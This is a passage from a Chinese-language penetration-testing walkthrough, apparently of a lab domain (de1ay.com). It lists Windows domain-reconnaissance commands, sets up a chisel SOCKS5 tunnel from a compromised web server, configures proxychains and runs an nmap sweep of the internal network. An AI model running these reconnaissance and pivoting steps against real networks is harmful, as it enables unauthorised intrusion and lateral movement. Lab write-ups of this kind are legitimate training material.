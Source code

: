 ```
`whoami   // 查看当前用户、权限``net user                                // 查看本地用户``net localgroup administrators           // 查看本地管理员组（通常包含域用户）`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119171913808

综上可知目标Web服务器主机的操作系统为Windows Server 2008，具有两个网卡分别连通192.168.1.1/24和10.10.10.1/24两个网段。

### 域内信息收集

```
`net config workstation     // 查看当前计算机名，全名，用户名，系统版本，工作站域，登陆的域等``net view /domain              // 查看域``net time /domain           // 主域服务器会同时作为时间服务器``net user /domain      // 查看域用户``net group /domain     // 查看域内用户组列表``net group "domain computers" /domain      // 查看域内的机器``net group "domain controllers" /domain          // 查看域控制器组``net group "Enterprise Admins" /domain    // 查看域管理员组`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119173542371![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119192952914![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119192838705

从收集的信息可知，目标主机所在的网络存在域环境，域名为de1ay.com，存在两台域主机WEB和PC，域控制器为DC.de1ay.com，主机名为DC，域管理员为Administrator。

攻入内网
----

我们先使用socks代理工具chisel在目标主机WEB的1090端口上搭建一个socks5代理服务。

在目标主机上传Windows版的chisel，然后执行如下命令启动socks5代理服务器：

```
`start /b chisel.exe server -p 1090 --socks5``// start /b为后台运行`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119200935069

攻击机执行如下命令启动socks5客户端：

```
nohup ./chisel_for_linux64 client 192.168.1.8:1090 socks &
```

如下图，成功在攻击机上面的1080端口开启了一个socks5监听：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119204320438

然后再配置攻击机的代理工具proxychains4：

```
vim /etc/proxychains4.conf
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119204427167

此时，我们攻击机上的应用程序就可以通过proxychains4代理进目标内网了。探测目标内网的主机存活：

```
proxychains4 nmap -A -F -sT -Pn 10.10.10.1/24 > nmap_res.txt
```
